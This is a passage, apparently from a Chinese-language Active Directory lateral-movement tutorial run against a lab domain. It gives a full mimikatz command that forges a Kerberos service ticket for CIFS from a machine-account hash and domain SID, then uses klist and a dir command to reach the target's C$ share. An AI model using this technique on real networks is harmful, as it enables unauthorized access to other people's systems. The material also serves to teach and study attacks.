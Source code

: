 伪造票据：

```cmd
# rc4 指定 WIN-7$ 的 Hash，Domain Computers 组用户
mimikatz.exe "kerberos::golden /domain:hack.site /sid:S-1-5-21-313574889-3468111967-1448950884 /target:WIN-7.hack.site /service:cifs /rc4:b2aa94f0ac2ccf85ae5975904a31db25 /user:anyone /ptt" "exit"
```

![](/assets/images/move/2020-07-05-17-26-58.png)

通过 klist 查看本机的 kerberos 票据，使用 dir \\\\WIN-7.hack.site\\c$ 访问 WIN-7 的共享文件夹：

![](/assets/images/move/2020-07-05-17-27-30.png)
